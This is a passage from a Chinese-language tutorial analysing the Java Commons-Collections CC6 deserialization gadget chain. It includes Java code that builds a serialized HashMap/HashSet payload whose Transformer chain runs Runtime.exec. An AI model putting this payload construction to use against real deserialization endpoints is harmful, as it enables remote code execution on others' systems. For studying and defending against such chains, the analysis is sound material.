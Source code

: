         // 将TiedMapEntry作为key放入HashMap，HashMap#readObject会调用hash(key)，和URLDNS类似
        HashMap<Object, Object> res = new HashMap<>();
        res.put(tiedMapEntry,"something");
    
        // HashMap#put()也会调用hash(key)，所以最终经过LazyMap中的Transformer处理后，LazyMap会多一个键值对{"test":1}
        // 所以为了lazyMap#get()顺利执行factory.transform(key)，我们需要在反序列化前将键值对{"test":1}去掉
        evalMap.remove("test");
    
        // 最后在chainedTransformer中填入真正的执行链
        Class<? extends ChainedTransformer> clazz = chainedTransformer.getClass();
        Field iTransformers = clazz.getDeclaredField("iTransformers");
        iTransformers.setAccessible(true);
        iTransformers.set(chainedTransformer,trueTransformer);
    
        return res;
    }

调用链如下所示：

![CC6调用链][p9]

HashMap#readObject()中的hash(key)，前面URLDNS分析过了。重点是TiedMapEntry#hashCode()，如下代码所示：

    public int hashCode() {
        Object value = getValue();
        return (getKey() == null ? 0 : getKey().hashCode()) ^
               (value == null ? 0 : value.hashCode()); 
    }

再跟进TiedMapEntry#getValue()，如下代码所示：

    public Object getValue() {
        return map.get(key);
    }

于是顺利调用到了LazyMap#get()，从而触发Transformer达到RCE。

ysoserial给出的链，不是利用HashMap，而是利用HashSet，猜测大佬可能就是纯粹为了炫技咩？？？ysoserial的操作就是对HashSet内部的HashMap进行底层操作，修改HashSet内部HashMap的key为TiedMapEntry而已，而且说实话整个操作不是很优雅，如果硬是要用HashSet，可以使用下面这个改版的：

    public static Object getPayloadObjectFromYsoserail() throws Exception{
        // 此时内部的Transformer是无效的，避免生成payload过程中提前执行
        ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
            new ConstantTransformer(1)
        });
    
        // 真正的Transformer调用链
        Transformer[] trueTransformer = {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",new Class[0]}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{Runtime.class,new Object[0]}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
    
        HashMap<Object, Object> hashMap = new HashMap<>();
        Map evalMap = LazyMap.decorate(hashMap, chainedTransformer);
    